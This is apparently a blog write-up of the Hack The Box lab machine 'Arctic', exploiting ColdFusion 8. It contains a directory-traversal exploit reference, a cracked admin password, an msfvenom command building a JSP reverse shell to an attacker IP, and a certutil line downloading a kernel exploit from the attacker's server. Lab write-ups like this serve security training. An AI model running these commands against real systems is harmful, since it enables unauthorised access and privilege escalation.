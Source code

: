 ```yaml
---
layout: PostSimple
date: 2020-02-29
title:     "Hack The Box - Arctic"
tags: ['windows','easy','ms10-059']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/1.png)

We are going to pwn Arctic from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/9](https://www.hackthebox.eu/home/machines/profile/9)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (91%), Microsoft Windows Phone 7.5 or 8.0 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 Professional or Windows 8 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Nmap scan doesn't show whats in port ``8500`` so I started checking that, Which reveals a directory.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/2.png)

``/cfdocs/``[br/](br/)
Some docs files, nothing useful.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/3.png)

``/CFIDE/``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/4.png)

Found an ``administrator`` over there and it leads to an login page. Which is ``ColdFusion8`` by Adobe.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/5.png)

Since we know the version we can start looking for exploits and I found this.

>https://www.exploit-db.com/exploits/14641

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/6.png)

I tried that payload in the url and it gave me a hash, It will be the admin's hash.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/7.png)

I used [CrackStation](https://crackstation.net/) to do this.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/8.png)

Logged in as admin `` happyday`` 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/10.png)

Now its time to get reverse shell, Under ``Debugging & Logging`` Category I found ``Scheduled Tasks``.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/11.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/12.png)
It gives us an ability to download an file and store it in the box - ``Publish`` but we need to give the directory.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/13.png)

Since ColdFusion running as ``Java`` we need to create a reverse shell using ``jsp``.

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=1234 -f raw > shell.jsp

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/14.png)

We need to upload it so, I started Python HTTP server.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/15.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/16.png)

Now where to store the script? I found the location of ``ColdFusion`` in ``Server Settings > Mappings``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/17.png)

Now its time to upload the shell!!
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/18.png)

Once uploaded I visited ``http://10.10.10.11:8500/CFIDE/`` is where the ``reverse shell`` is stored.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/19.png)

Started my listener and opened ``shell.jsp`` [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/20.png)

Got User Shell and Flag!

## Privilege Escalation:

Like always when I get a shell I start with ``systeminfo`` [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/21.png)

Where Hotfix(s): N/A which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can try with [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

I Copied the ``systeminfo`` output to my machine as ``systeminfo.txt`` and start WIndows_Exploit_Suggester.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/22.png)
Since there is a lot of vulnerability, I started with ``MS10-059``.Searched for exploits and found this [Windows_kernel_exploit](https://github.com/egre55/windows-kernel-exploits)
This is the one we need.
> https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri

Uploaded the executable to the box 

> certutil.exe -urlcache -split -f http://10.10.14.31:8000/Chimichurri.exe Chimichurri.exe

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/23.png)

Started my Listener and got AUTHORITY

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/24.png)











